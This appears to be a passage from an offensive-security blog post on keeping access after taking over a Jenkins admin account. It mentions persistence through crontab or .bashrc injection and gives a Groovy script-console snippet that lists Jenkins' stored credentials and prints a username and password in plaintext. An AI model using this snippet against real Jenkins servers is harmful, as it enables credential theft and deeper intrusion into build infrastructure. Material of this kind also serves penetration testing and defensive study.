 Apart from regular maintaining persistence techniques, such as using crontab, or injecting `.bashrc`, we can utilize the hijacked Jenkins admin account.
Jenkins provides a script console functionality that can be used admin to execute arbitrary Groovy script in **non-sandbox** mode.

![Script Console](/post_assets/003/post-console.png)

Moreover, we can also use this console to enumerate stored secrets in Jenkins with the following script:

```java
import com.cloudbees.plugins.credentials.*

// list credentials
credentials = SystemCredentialsProvider.getInstance().getCredentials()
println credentials

println ''
println credentials[0]['username'] + ':' + credentials[0]['password']
```
